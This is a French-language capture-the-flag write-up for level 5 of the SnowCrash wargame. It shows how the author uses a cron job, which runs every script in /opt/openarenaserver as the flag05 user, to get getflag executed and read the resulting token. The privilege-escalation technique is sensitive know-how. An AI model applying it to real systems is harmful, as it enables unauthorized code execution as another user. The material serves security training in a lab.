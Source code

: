 # Level05

Un mail suspicieux dans notre boite aux lettres
à /var/mail, il contient une entrée de crontab,
comme pour nous indiquer la direction à prendre.

```bash
level05@SnowCrash:/var/mail$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le script /usr/sbin/openarenaserver potentiellement éxécuté toutes les 2 mins fait en sorte d'éxécuter le contenu du dossier /opt/openareaserver 

Nous créons un fichier script dans ce dossier
contenant la commande getflag

```bash
level05@SnowCrash:/var/mail$ vi /opt/openarenaserver/myscript.sh
```

Contenu du script:
```bash
getflag > /tmp/myflag
```

Puis nous attendons patiemment l'heure du verdict,
Et nous effectuons cela:

```bash
level05@SnowCrash:/var/mail$ cat /tmp/myflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```